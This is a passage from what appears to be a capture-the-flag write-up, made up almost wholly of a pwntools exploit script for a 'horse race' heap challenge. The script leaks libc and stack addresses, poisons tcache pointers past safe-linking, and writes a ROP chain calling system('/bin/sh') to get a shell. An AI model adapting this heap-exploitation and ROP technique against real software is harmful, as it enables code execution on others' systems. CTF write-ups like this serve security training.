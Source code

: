 ```
    leak = int.from_bytes(p.recvuntil(b'\n').replace(b'\n', b''), 'little')
libc_base = leak - 0x1BE5E0
print("Libc base: " + hex(libc_base))

# ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ #

remove_horse(3)
remove_horse(2)

cheat(2, p64((libc_base + 0x1bf620) ^ aslr) + b'\xFF', 2)

add_horse(2, 256, b'\xFF')
add_horse(3, 256, b'\xFF')

remove_horse(5)
remove_horse(4)

cheat(4, p64(0x4040E0 ^ aslr) + b'\xFF', 4)

add_horse(4, 256, b'\x00' * 256)
add_horse(5, 256, b'\xFF')

another_leak = 0
while another_leak == 0 or another_leak == leak or another_leak == aslr:
    race()
    p.recvuntil(b'WINNER: ')
    another_leak = int.from_bytes(p.recvuntil(b'\n').replace(b'\n', b''), 'little')
print(f"stack leak is: {hex(another_leak)}")

# ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ #

ret_ptr_loc = another_leak - 0xF8
print(f"return pointer is at: {hex(ret_ptr_loc)}")

libc = ELF('./libc.so.6')
rop = ROP(libc)

pop_rdi = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
bin_sh  = libc_base + next(libc.search(b'/bin/sh'))

chain = p64(pop_rdi) + p64(bin_sh) + p64(e.plt['system'])
payload = p64(0) + chain + b'\xFF'

remove_horse(7)
remove_horse(6)

cheat(6, p64(ret_ptr_loc ^ aslr) + b'\xFF', 6)

add_horse(6, 256, b'\xFF')
add_horse(7, 256, payload)

# ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ #

p.sendline(b'4')
p.interactive()
```

Output (after running it a few times, again it's not perfect):

![image](https://user-images.githubusercontent.com/96510931/228116896-a9be5add-79b5-48df-8f33-9b336ca2dcc3.png)

